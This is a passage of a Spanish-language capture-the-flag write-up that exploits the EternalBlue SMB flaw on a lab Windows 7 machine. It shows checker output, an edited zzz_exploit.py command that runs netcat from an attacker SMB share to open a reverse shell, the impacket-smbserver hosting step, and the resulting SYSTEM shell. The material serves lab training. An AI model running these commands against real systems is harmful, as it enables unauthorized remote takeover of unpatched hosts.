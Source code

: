 Le indico que el usuario es ```null```

```null
USERNAME = 'null'
PASSWORD = ''
```

La respuesta cambia

```null
python2 checker.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```

Le añado al ```zzz_exploit.py``` también el usuario y además el comando que quiero ejecutar, en este caso una reverse shell ejecutando un ```netcat``` compartido desde mi equipo

```null
service_exec(conn, r'cmd /c \\10.10.16.3\shared\nc.exe -e cmd 10.10.16.3 443')
```

Utilizo ```impacket-smbserver``` para hostear el ```netcat```

```null
impacket-smbserver shared $(pwd) -smb2support
```

Ejecuto y obtengo la shell en una sesión interactiva

```null
python2 zzz_exploit.py 10.10.10.40 samr
```

```null
nc -nvlp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.40.
Ncat: Connection from 10.10.10.40:49165.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Puedo ver las dos flags
